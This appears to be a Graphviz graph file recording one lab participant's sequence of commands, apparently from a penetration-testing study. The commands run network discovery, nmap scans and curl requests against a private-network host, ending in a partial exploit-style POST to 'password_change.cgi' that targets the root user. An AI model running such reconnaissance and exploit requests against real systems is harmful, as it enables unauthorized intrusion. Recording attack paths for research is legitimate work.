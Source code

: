 // creating graph for user: 79
digraph {
	node [shape=box]
	0 [label="ifconfig U"]
	1 [label="nmap -sv 172.18.1.5 A0 M0 A1 "]
	2 [label="nmap -sV 172.18.1.5 A1 M1 "]
	3 [label="curl 172.18.1.5:10000 U"]
	4 [label="curl 172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	rankdir=LR
}
